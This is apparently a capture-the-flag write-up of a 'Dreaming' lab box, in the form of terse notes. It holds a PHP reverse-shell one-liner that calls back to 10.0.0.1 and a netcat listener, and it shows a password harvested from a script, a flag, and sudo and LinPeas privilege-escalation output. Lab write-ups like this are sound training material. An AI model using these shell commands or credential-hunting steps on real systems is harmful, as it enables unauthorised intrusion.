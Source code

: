 password `password` got by checking random passwords.



### priv Esc

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
`nc -lnvp 9999`

##### users

```
death
lucien
morpheus
```

in `/opt` directory

```
www-data@dreaming:/opt$ cat test.py
--SNIP--
#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"
--SNIP--
www-data@dreaming:/opt$
```

#### Found Creds

`lucien`:`HeyLucien#@1999!`

Got user!

**lucien_flag.txt**

`THM{TH3_L1BR4R14N}`

```
lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py

```

`-rwxrwx--x 1 death death 1539 Aug 25  2023 getDreams.py`

#### LinPeas

```
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31
```
